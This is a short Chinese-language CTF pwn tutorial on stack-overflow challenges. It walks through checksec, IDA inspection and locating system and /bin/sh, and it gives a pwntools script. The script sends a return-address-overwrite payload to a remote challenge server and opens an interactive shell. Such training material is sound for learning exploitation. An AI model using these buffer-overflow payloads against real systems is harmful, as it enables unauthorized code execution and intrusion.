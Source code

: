 pwn解题步骤以及方法（持续更新）
==

1.栈溢出
--

①checksec命令查看文件基本信息（64/32位、是否开启NX防护等）<br>
②ida查看逻辑，查看可疑函数。<br>
举个例子：<br>
![image](https://github.com/xhsy0314/Task/assets/84487619/91b5e4ba-08db-4d1a-b62a-480b21ab6380)

③观察有无/bin/sh动态，以及system函数。<br>
在函数窗口中，callsystem函数可以让我们获得一个shell。找一下这个函数的地址，缓冲区溢出，就想要跳转到这个地址上：<br>

![image](https://github.com/xhsy0314/Task/assets/84487619/ef3fbfbc-4c5f-4814-aa9b-066012d5f82e)
<br>
④构建payload<br>

    payload = flat([b'a'*32,sysaddr,b'b'*4,binsh])

⑤脚本结构：<br>
```
from pwn import * 
r = remote("111.198.29.45",48316)#远程连接
#'a'*0x8是填充ebp，p64(0x00400596)是填充ret
payload = 'A' * 0x80 + 'a' * 0x8 + p64(0x00400596)
r.recvuntil("Hello, World\n")#直到接收到Hello,World才执行后面的操作
r.sendline(payload)#发送一行数据
r.interactive()#交互shell
```

⑥python file.py运行脚本,获取权限。
